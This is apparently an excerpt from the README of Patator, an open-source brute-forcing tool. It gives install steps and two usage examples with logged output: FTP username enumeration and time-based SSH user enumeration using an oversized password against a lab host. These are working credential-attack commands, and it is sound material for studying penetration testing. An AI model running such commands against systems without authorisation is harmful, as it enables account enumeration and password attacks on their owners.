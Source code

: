 [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=SB36VJH4EM5WG&lc=AU&item_name=lanjelot&item_number=patator&currency_code=AUD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted)

Many thanks! [@lanjelot](https://twitter.com/lanjelot)

## Install

```
git clone https://github.com/lanjelot/patator.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t patator patator/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt patator dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Examples

* FTP : Enumerating users denied login in `vsftpd/userlist`

```
$ ftp_login host=10.0.0.1 user=FILE0 0=logins.txt password=asdf -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
19:36:06 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 19:36 AEDT
19:36:06 patator    INFO -
19:36:06 patator    INFO - code  size    time | candidate                          |   num | mesg
19:36:06 patator    INFO - -----------------------------------------------------------------------------
19:36:07 patator    INFO - 230   17     0.002 | anonymous                          |     7 | Login successful.
19:36:07 patator    INFO - 230   17     0.001 | ftp                                |    10 | Login successful.
19:36:08 patator    INFO - 530   18     1.000 | root                               |     1 | Permission denied.
19:36:17 patator    INFO - 530   18     1.000 | michael                            |    50 | Permission denied.
19:36:36 patator    INFO - 530   18     1.000 | robert                             |    93 | Permission denied.
...
```

Tested against `vsftpd-3.0.2-9` on `CentOS 7.0-1406`.

* SSH : Time-based user enumeration

```
$ ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=$(perl -e "print 'A'x50000") --max-retries 0 --timeout 10 -x ignore:time=0-3
17:45:20 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 17:45 AEDT
17:45:20 patator    INFO -
17:45:20 patator    INFO - code  size    time | candidate                          |   num | mesg
17:45:20 patator    INFO - -----------------------------------------------------------------------------
17:45:30 patator    FAIL - xxx   41    10.001 | root                               |     1 | <class '__main__.TimeoutError'> timed out
17:45:34 patator    FAIL - xxx   41    10.000 | john                               |    23 | <class '__main__.TimeoutError'> timed out
17:45:37 patator    FAIL - xxx   41    10.000 | joe                                |    40 | <class '__main__.TimeoutError'> timed out
...
```
